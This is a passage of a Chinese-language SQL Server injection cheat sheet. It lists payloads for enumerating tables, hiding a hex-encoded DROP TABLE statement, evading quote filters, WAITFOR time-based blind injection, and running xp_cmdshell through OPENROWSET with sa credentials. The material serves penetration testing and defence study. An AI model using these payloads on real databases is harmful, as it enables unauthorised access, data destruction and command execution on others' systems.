 ```
SELECT table_name %2b ', ' FROM information_schema.tables FOR XML PATH('')        SQL Server 2005+ 
```

附：
代码可以用十六进制进行混淆

```
' AND 1=0; DECLARE @S VARCHAR(4000) SET @S=CAST(0x44524f50205441424c4520544d505f44423b AS VARCHAR(4000)); EXEC (@S);-- 
```

避免引用序号

```
SELECT * FROM Users WHERE username = CHAR(97) + CHAR(100) + CHAR(109) + CHAR(105) + CHAR(110) 
```

字符串连接

```
SELECT CONCAT('a','a','a'); (SQL SERVER 2012)
SELECT 'a'+'d'+'mi'+'n'; 
```

### 条件语句

```
IF
CASE 
```

示例：

```
IF 1=1 SELECT 'true' ELSE SELECT 'false';
SELECT CASE WHEN 1=1 THEN true ELSE false END; 
```

附：IF 不能在 SELECT 语句中使用。

### 时间延迟:

```
WAITFOR DELAY 'time_to_pass';
WAITFOR TIME 'time_to_execute'; 
```

示例：

```
IF 1=1 WAITFOR DELAY '0:0:5' ELSE WAITFOR DELAY '0:0:0'; 
```

### OPENROWSET 攻击

```
SELECT * FROM OPENROWSET('SQLOLEDB', '127.0.0.1';'sa';'p4ssw0rd', 'SET FMTONLY OFF execute master..xp_cmdshell "dir"'); 
```
